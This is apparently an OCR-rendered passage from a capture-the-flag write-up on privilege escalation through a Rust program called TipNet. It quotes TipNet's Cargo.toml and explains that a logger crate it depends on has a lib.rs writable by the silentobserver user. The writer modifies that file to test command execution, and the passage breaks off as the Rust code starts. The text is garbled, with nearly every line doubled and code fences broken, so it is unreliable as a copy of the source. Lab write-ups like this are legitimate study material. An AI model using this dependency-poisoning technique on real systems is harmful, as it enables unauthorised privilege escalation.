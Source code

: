 ```
The TipNet `Cargo.toml` file specifies a dependency on a `logger` package located on the target machine at `/opt/crates/logger`.


Contents of `/opt/tipnet/Cargo.toml` file:
Contents of `/opt/tipnet/Cargo.toml` file:
```
```
[package]
[package]
name = "tipnet"
name = "tipnet"
version = "0.1.0"
version = "0.1.0"
edition = "2021"
edition = "2021"




# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html
# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html




[dependencies]
[dependencies]
chrono = "0.4"
chrono = "0.4"
mysql = "23.0.1"
mysql = "23.0.1"
nix = "0.18.0"
nix = "0.18.0"
logger = {path = "../crates/logger"}
logger = {path = "../crates/logger"}
sha2 = "0.9.0"
sha2 = "0.9.0"
hex = "0.4.3"
hex = "0.4.3"
```
```


We have already seen that the file `/opt/crates/logger/src/lib.rs` is writable by the `silentobserver` user.  Let's test to see if we get command execution with this file.
We have already seen that the file `/opt/crates/logger/src/lib.rs` is writable by the `silentobserver` user.  Let's test to see if we get command execution with this file.




## Exploiting TipNet for Privilege Escalation
## Exploiting TipNet for Privilege Escalation




We modified the `lib.rs` file to create the file `/tmp/0xe10c`.
We modified the `lib.rs` file to create the file `/tmp/0xe10c`.
```rust
```rust
extern crate chrono;
extern crate chrono;
```